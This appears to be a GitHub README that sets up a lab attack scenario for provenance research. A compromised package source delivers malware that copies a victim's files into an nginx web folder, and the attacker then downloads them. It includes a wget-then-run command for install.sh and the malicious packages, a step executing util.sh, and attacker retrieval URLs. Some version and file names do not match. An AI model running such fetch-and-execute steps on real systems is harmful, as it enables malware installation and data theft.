 ## Scenario

The victim user tries to download a series of packages for his environment via `wget`. However, one of the source URLs has been compromised by the attacker, in which the original package has been replaced with a malware `mal-package`. 

After execution, `mal-package` copies sensitive files from the victim's original directory to a shared folder, which provides web sources for the shared nginx server on victim's PC.

Finally, the attacker steals those files by connecting and requesting to victim's server.

### Similar scenario

[Rain: Refinable Attack Investigation with On-demand Inter-Process Information Flow Tracking](https://iisp.gatech.edu/sites/default/files/images/rain.pdf)

In their motivating example, the attacker compromised a distribution site of an firefox extension *FireFTP*, the original extension has been replaced with a malicious one.

## Implementation

### sources

Ubuntu 16.04: http://mirror.nus.edu.sg/ubuntu-ISO/16.04/    
nginx 1.4.0: http://nginx.org/download/nginx-1.20.2.tar.gz    
wget 1.20.3: https://ftp.gnu.org/gnu/wget/wget-1.20.3.tar.gz

### Deploy

**Nginx server (Victim IP1)**

* build and install
```
tar xzvf nginx-1.20.2.tar.gz && cd nginx-1.20.2
./configure --prefix=/home/chuqi/local/nginx --error-log-path=PATH=/home/chuqi/log/nginx/error.log
make && make install
```

* configure file

Download the `nginx.conf` file in this github dir.
```
mv nginx.conf /home/chuqi/local/nginx/conf/nginx.conf
```

* web sources

Download the folder `web-source` under this github directory.
```
cp web-source /home/chuqi
```

* deploy
```
help: /home/chuqi/local/nginx/sbin/nginx -h
start: /home/chuqi/local/nginx/sbin/nginx
stop: /home/chuqi/local/nginx/sbin/nginx -s stop
```

**Operations (Victim IP1)**

0. Start nginx server

```
/home/chuqi/local/nginx/sbin/nginx
```

1. Download several packages via wget 
```
wget https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/install.sh \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/util.deb\
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg1 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg2 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg3 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg4 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg5 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg6 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg7 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg8 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg9 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg10 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg11 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg12 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg13 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg14 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg15 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg16 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg17 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg18 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg19 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg20 \

./install.sh
```
2. Execute malicious `util.sh`

```
util.sh
```

**Exploit (Attacker IP2)**    

Access victim's web-server on attacker's browser:
```
IP1:8080/data/xxx
IP1:8080/images/xxx
```

